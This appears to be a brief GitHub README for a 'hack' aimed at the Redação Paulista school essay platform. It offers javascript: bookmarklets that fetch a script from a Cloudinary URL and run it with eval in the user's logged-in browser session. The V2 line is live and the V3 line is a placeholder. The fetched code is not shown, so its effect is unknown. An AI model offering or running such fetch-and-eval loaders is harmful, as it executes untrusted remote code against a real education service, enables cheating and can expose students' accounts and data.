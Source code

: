 # 🚀 HCK - REDAÇÃO PAULISTA 

## REDAÇÃO V2 (MANUTENÇÃO)
```js
javascript:fetch("https://res.cloudinary.com/dctxcezsd/raw/upload/v1747912572/redacaov2.js").then(t=>t.text()).then(eval);
```

## REDAÇÃO V3
```js
javascript:fetch("INDISPONÍVEL").then(t=>t.text()).then(eval);
```
